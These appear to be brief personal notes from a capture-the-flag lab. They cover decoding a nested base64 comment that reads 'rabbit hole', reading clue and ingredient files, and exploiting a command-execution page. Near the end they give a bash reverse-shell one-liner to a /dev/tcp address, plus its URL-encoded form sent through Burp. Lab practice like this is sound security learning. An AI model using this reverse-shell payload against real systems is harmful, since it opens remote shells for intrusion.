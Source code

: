 
http://10.10.67.14/login.php
```
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
VmpGU1NtVkdTWGxTYkdScFUwWktjRlZyVmt0VE1WWnhVMjA1VG1KSGVIbFhhMXBoVlZaV1ZVMUVhejA=
VjFSSmVGSXlSbGRpU0ZKcFVrVktTMVZxU205TmJHeHlXa1phVVZWVU1Eaz0
V1RJeFIyRldiSFJpUkVKS1VqSm9NbGxyWkZaUVVUMDk=
WTIxR2FWbHRiREJKUjJoMllrZFZQUT09
Y21GaVltbDBJR2h2YkdVPQ==
cmFiYml0IGhvbGU=
rabbit hole

http://10.10.67.14/clue.txt
```
Look around the file system for the other ingredient.
```

http://10.10.67.14/denied.php
![[Pasted image 20240327230026.png]]


![[Pasted image 20240327230216.png]]

cat Sup3rS3cretPickl3Ingred.txt
![[Pasted image 20240327230458.png]]
more got the same
![[Pasted image 20240328000519.png]]
mr. meeseek hair

sent this to burp

`bash -c "bash -i >& /dev/tcp/10.18.21.236/443 0>&1"`
url encoded: `bash+-c+"bash+-i+>%26+/dev/tcp/10.18.21.236/443+0>%261"&sub=Execute`

![[Pasted image 20240403114131.png]]

